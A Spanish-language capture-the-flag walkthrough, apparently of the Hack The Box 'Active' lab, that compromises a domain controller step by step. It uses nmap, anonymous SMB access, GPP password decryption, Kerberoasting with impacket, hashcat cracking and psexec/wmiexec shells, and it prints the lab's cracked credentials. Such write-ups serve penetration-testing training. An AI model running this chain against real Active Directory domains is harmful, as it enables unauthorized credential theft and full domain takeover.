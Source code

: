 ![1](Images/1.png)

Comenzamos enumerando puertos abiertos con nmap.

``sudo nmap 10.10.10.100 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![2](Images/2.png)

Dados los puertos abiertos, tiene bastante pinta de que es un DC. No obstante, vamos a ver qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.10.100 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49163,49174,49176 -oN target``

![3](Images/3.png)

Confirmamos que es un DC. A su vez, podemos empezar a ver cositas, como que el dominio es active.htb. Para recopilar un poquito más de información vamos a hacer uso de netexec.

``netexec smb 10.10.10.100``

![4](Images/4.png)

Confirmamos que el dominio es active.htb, que la máquina se llama dc y que tiene un WinServer 2008.

Añadimos esta información al /etc/hosts.

![5](Images/5.png)

Para continuar enumerando información que pueda ser de utilidad, vamos a intentar ver qué recursos se están compartiendo:

``netexec smb 10.10.10.100 -u '' -p '' --shares``

![6](Images/6.png)

Tenemos permisos de lectura en el recurso Replication, lo cual es llamativo. Vamos a echar un vistazo con null sesion.

``smbclient //10.10.10.100/REPLICATION -N``

![7](Images/7.png)

active.htb -> Parece la estructura de SYSVOL

Para echarle un ojo más a fondo, vamos a traernos todo lo existente a la máquina atacante.

``recurse ON``

``prompt OFF``

``mget *``

A medida que se van descargando, si nos fijamos, hay algo que llama la atención:

![8](Images/8.png)

groups.xml. Este archivo es muy jugoso porque a veces tiene contraseñas.

Si queremos ver la estructura de todos los datos descargados:

``tree .``

![9](Images/9.png)

Y si echamos un vistazo a Groups.xml : 

![11](Images/10.png)

Vemos claramente una referencia al usuario SVC_TGS y la contraseña encriptada. Para poder romperla hacemos uso de la utilidad ``gpp-decrypt``.

``gpp-decrypt 'CLAVE'``

![12](Images/12.png)

Tenemos la contraseña, y por tanto, las posibles credenciales -> SVC_TGS : GPPstillStandingStrong2k18

Vamos a ver si son válidas con netexec.

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'``

![13](Images/13.png)

Nos pone [+], por lo que son credenciales válidas. Una vez sabemos esto, podemos seguir husmeando para ver qué se esta compartiendo para este usuario por SMB:

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares``

![14](Images/14.png)

Lo único que puede parecer interesante, a priori, es el directorio Users. Si nos conectamos con smbclient con estas credenciales, vemos que es el directorio C:\Users. De hecho, podemos acceder a user.txt dentro del directorio SVC_TGS, pero en un escenario como el de la OSCP no sirve con obtener la flag de esta forma porque no tenemos una consola interactiva.

![15](Images/15.png)

Vale, tenemos unas credenciales válidas, pero no tenemos forma de conectarnos: no hay winRM, no hay RDP y no podemos hacer uso de psexec/wmiexec por falta de privilegios.

Como tenemos credenciales, podemos probar kerberoasting para ver si capturamos algún hash de otro usuario:

``impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``

-> Password: GPPstillStandingStrong2k18

![16](Images/16.png)

Ojo. Tenemos el TGS del usuario Administrator. Si conseguimos descifrarlo, está hecho. Nos copiamos el contenido en un archivo. Ej: admintgs

![17](Images/17.png)

Buscamos en hashcat el código para el TGS-REP (``krb5tgs$23$``):

``hashcat --help | grep -i "kerberos"

![18](Images/18.png)

Lanzamos hashcat con rockyou como diccionario.

``hashcat -m 13100 admintgs /usr/share/wordlists/rockyou.txt --force``

![19](Images/19.png)

Lo ha sacado. Tenemos contraseña del usuario Administrator : Ticketmaster1968

Validamos credenciales con netexec:

``netexec smb 10.10.10.100 -u 'administrator' -p 'Ticketmaster1968'``

![20](Images/20.png)

Nos aparece pwned para smb, por lo que podríamos utilizar wmiexec (para acceder como administrator) y psexec (para acceder como nt authority\system):

Ejemplos:

``impacket-wmiexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![21](Images/21.png)

``impacket-psexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![22](Images/22.png)


Recogemos la flag de usuario en: C:\Users\SVC_TGS\Desktop:

![32](Images/23.png)

Y por último, recogemos la flag de Administrador en C:\Users\Administrator\Desktop:

![24](Images/24.png)

